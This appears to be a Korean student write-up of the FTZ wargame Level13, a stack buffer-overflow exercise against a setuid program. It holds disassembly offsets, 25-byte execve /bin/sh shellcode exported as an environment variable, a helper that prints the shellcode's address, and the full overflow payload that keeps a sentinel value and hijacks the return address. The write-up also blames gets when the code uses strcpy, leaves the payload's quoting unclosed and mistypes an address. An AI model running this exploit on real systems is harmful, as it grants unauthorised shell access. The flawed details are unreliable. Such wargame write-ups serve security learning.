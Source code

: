 # FTZ Level13

#### ID : level13 PW: have no clue
<br>

**먼저 ```ls -l```을 이용해 어떤 파일이 있는지 살펴보자**<br> 
attackme 프로그램에 level13의 권한으로 setuid가 걸려있는 것을 확인할 수 있다.<br><br>
우선 hint의 내용을 보자<br>
```cat hint```<br>
```c
#include <stdio.h>

int main(int argc, char *argv[])
{
      long i=0x1234567;
      char buf[1024];
      
      setreuid(3094, 3094);
      if(argc>1)                  #argv로 받는 입력이 1개 이상 있다면
      strcpy(buf, argv[1]);       #입력 buf로 복사
      
      if(i != 0x1234567){
      printf(" Warning: Buffer Overflow !!! \n");
      kill(0, 11);                #프로그램 종료
      }
}
```
```gets``` 함수에서 BOF가 일어날 수 있다!!<br>
또한 hint를 보면 i라는 변수가 0x1234567이 아닐 경우 프로그램을 종료시키는 것을 보아 BOF를 검사하고 있다.<br>

우리의 목적을 생각해보자.<br>
버퍼에 버퍼크기보다 넘치는 양을 담으면서 i는 0x1234567로 만들어줘야한다.  
그렇다면..!!!<br>
1. buf[1024]에서 i까지의 거리 구하기, i에서 ret까지의 거리 구하기
2. i를 0x1234567로 바꾸기
3. 환경 변수 선언하고 주소 얻기
4. 페이로드 작성하고 공격!

**attackme 코드를 디버깅해야하기 때문에 tmp폴더로 복사하자.**<br>
```cp attackme tmp```<br><br>
**그리고 디버깅을 해보자**<br>
```gdb -q attackme```<br>
```disas main```<br>

<main+3>을 보면 0x418만큼의 공간을 만들고 있다. 0x418은 10진수로 1048이다.<br>
i변수는 4byte, buf배열은 1024byte인데 1048을 할당했다는 것은 20byte만큼의 dummy가 있다는 것!<br>
dummy가 어디에 위치해 있는지 찾아봐야겠다.<br>
<main+61>을 보면 strcpy가 호출되고 있다. strcpy의 인자로 buf가 들어가는데!!<br>
<main+60> <main+54>를 보면 eax가 push되는데 그 eax의 주소가 0xfffffbe8인 것을 알 수 있다.<br>
그렇다! **0xfffffbe8**이 바로 buf의 주소다! 이는 ebp로부터 -1048이다.<br>

i의 위치도 찾아보자.<br>
<main+69>를 보면 0x1234567과 0xfffffff4를 비교하고 있다. **0xffffff4**가 i의 주소인 것이다.<br>
i는 ebp로부터 -12에 위치하고 있는 것이다.<br>

이제 buf에서 i까지의 거리를 구하면 1048-12=1036인 것을 알 수 있다.<br>
*( 0xffffff4 - 0xffffbe8해도 된다.)*<br>

그렇다면 우리가 작성할 페이로드는 다음과 같다고 할 수 있다.<br>
**"A"*(buf~i까지 거리)+0x1234567+"A"*(i에서 ret까지의 거리)+쉴 주소**<br>

**자 이제 다음과 같이 환경변수를 작성해보자.** <br>
쉘 코드는 구글에서 돌아다니는 25byte짜리를 가져왔다. <br>
*(다음에 쉘 코드에 대해 더 공부해봐야겠다....)*<br>
```
export shellcode=$(python -c 'print "\x90"*20+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e
\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"')
```

**이제 쉘 코드의 주소를 알아보자**<br>
```vi shell.c``` vi로 쉘 주소 알아내는 코드를 작성해보자<br>
```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[1]){
      printf("%p\n", getenv("shellcode"));
      return 0;
}
```
그리고 만든 c코드를 컴파일 한 후 <br>
```gcc -o shell shell.c```<br>
실행시킨다!<br>
```./shell```<br>
그럼 주소가 떨어진다<br>
필자의 경우 **0xbffffef4**였다.<br>

**이제 페이로드를 작성해보자.**<br>
```./attackme (python -c 'print "A"*1036+"\x67\x45\x23\x01+"A"*12+"\xf4\xfe\xff\xbf"')```<br>
*(주소는 little endian 방식으로 입력된다)*<br>
<br>
```cd ..``` 다시 원래 디렉토리로 되돌아가서<br>
**공격 실시!**<br>
```./attackme (python -c 'print "A"*1036+"\x67\x45\x23\x01+"A"*12+"\xf4\xfe\xff\xbf"')```<br>
```my-pass```로 비밀번호를 물어보면<br>
Level14 Password is "~~". 라고 나올 것이다!!
